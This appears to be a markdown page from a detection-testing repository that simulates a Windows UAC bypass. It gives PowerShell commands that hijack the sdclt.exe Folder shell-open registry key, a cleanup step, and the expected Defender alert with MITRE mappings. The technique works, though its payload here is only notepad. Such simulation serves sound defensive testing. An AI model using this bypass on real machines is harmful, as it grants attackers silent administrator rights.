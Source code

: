 # UAC Bypass

UAC Bypass is a technique where attackers elevate their privileges to gain administrator-level permissions without triggering a User Account Control (UAC) prompt. This allows them to perform restricted tasks without user confirmation, bypassing security checks that would typically prevent unauthorized actions.

## Simulation

Run the following commands in PowerShell on a test device.

> **Note:** Download the [simulation script here](Invoke-UACBypassSimulation.ps1).
> To execute the simulation run the command `Invoke-UACBypassSimulation.ps1`.
> To clean up the simulation run the command `Invoke-UACBypassSimulation.ps1 -CleanUp`.

```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value 'cmd.exe /c notepad.exe'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath "$env:windir\system32\sdclt.exe"
```

## Cleanup

```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| UAC bypass was detected | A process has performed actions on a child process or another subsequent process that would normally require a User Account Control (UAC) prompt. This could be an attempt to elevate privileges without requesting user permission. | **Category:** Privilege escalation<br/>**MITRE ATT&CK Techniques:** T1112: Modify Registry, T1548.002: Bypass User Account Control<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |
